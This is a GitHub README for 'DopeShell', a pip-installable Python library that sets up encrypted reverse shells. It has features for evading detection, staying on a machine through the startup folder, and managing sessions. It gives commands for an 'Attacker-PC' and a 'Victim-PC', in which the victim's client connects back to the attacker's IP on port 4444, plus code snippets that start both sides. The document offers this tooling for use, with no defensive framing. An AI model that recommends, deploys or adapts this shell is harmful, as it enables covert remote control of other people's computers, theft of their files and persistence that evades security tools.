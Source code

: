 # **DopeShell**
![Static Badge](https://img.shields.io/badge/Python-3.12.5-orange)
![Static Badge](https://img.shields.io/badge/License-MIT-white)
![Static Badge](https://img.shields.io/badge/PyPi-1.1.1-green)
## **Introduction**

**DopeShell** is a Python library designed to simplify the creation of secure reverse shells with advanced features like session management, encryption, multiple connections, and obfuscation techniques. This library provides an easy-to-use interface for setting up both the client and server sides of a reverse shell, with the ability to manage multiple sessions, simulate command-line prompts, and more.

## **Features**

- **Encrypted Communication**: Utilizes AES encryption to secure data transmitted between the client and server.
- **Session Management**: Handles multiple active sessions and allows the server operator to switch between them.
- **Command Prompt Simulation**: The reverse shell simulates the target's command-line interface, making it appear as if the commands are being executed locally.
- **Obfuscation Techniques**: Implements basic obfuscation to avoid detection by security systems.
- **Customizable**: Easily configure host, port, and encryption key via command-line arguments.
- **Persistence**: Easily set up persistence by saving a batch file in the startup folder to ensure reconnection on boot
- **Useful commands**: Provides useful commands like download, upload, screenshot to enhance interactivity of the shell

## **Directory Structure**

The project is organized as follows:
- **setup.py**: Contains the package configuration for installation.
- **README.md**: This documentation file.
- **LICENSE**: The project's license file.
- **dopeshell/**: The main package directory containing the server and client scripts.

## **Installation**

### **Prerequisites**

- **Python 3.7+**
- **pip** (Python package manager)

### **Installing DopeShell**

You can install `DopeShell` using `pip`:

```bash
pip install DopeShell
```

### **Building DopeShell**
If you want to build it yourself, you can use the following commands:
```
1. git clone https://www.github.com/anonymous300502/DopeShellPyPi
2. python setup.py sdist bdist_wheel
3. pip install dist/DopeShell-1.1.1-py3-none-any.whl (Replace the .whl file with the file in your dist directory)
```


## **Usage Instructions:**
#### **On the Attacker-PC, Run the following commands:**
```bash
dopeshell-server --host 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- Dopeshell uses "myverystrongpasswordo32bitlength" as the default key so you can skip the --key argument if you wish to use the default key, but we recommend using your own custom key which should be **32 bits** long.
- If you omit the --host and --port arguments, It uses '0.0.0.0' as the default IP address and '4444' as the default port.

#### **On the Victim-PC, Run the following commands:**
```bash
dopeshell-client --server-ip 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- The server ip and port arguments are **required** here, If a custom key was used in the server it should be mentioned using the --key argument. If a custom key is not used in the server side startup command, It will use the default key automatically.

### **Usage commands:**
- switch NUMBER [To switch between available sessions]
- exit [To exit the session] <br><br><br>
- persist [Set up persistence to enusre connection on reboot]<br><br><br>

*Image1- initializaiton*
![Runing server](https://github.com/anonymous300502/DopeShellPyPi/blob/main/screenshots/running.png)
*Image2- Running commands*
![basic_usage_1](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/basic_usage_1.png)<br><br><br>
*Image3- Switching between sessions* <br>
![basic_usage_2](https://github.com/anonymous300502/DopeShellPyPi/blob/main/screenshots/improved_exit_and_switch.png)<br><br><br>
*Image4- Setting up persistence* <br>
![presist](https://github.com/anonymous300502/DopeShellPyPi/blob/main/screenshots/persistence.png)<br><br><br>
*Image5- In-Shell commands* <br>
![commands](https://github.com/anonymous300502/DopeShellPyPi/blob/main/screenshots/commands.png)

### **Here are sample snippets if you wish to use the library in your own code:**
- test_server.py
```python
from DopeShell import DopeShellServer

key = b'myverystrongpasswordo32bitlength'

server = DopeShellServer('0.0.0.0', 4444, key)
server.run()
```
- test_client.py
```python
from DopeShell import DopeShellclient

key = b'myverystrongpasswordo32bitlength'

server = DopeShellclient('192.168.1.11', 4444, key)
server.run()

```

### **Contributing**
- Contributions are welcome! To contribute:
- Fork the repository.
- Create a new branch for your feature/bugfix.
- Write tests for your changes.
- Submit a pull request.
- Please ensure your code adheres to the project's coding standards.


### **License**
This project is licensed under the MIT License. See the LICENSE file for details.

### **Contributors:**<br>
[Manaswi Sharma](https://www.github.com/manaswii)

### **Contact Information**
For issues, questions, or suggestions, please contact:

Email: 170mailmea@gmail.com<br>
GitHub: https://github.com/anonymous300502
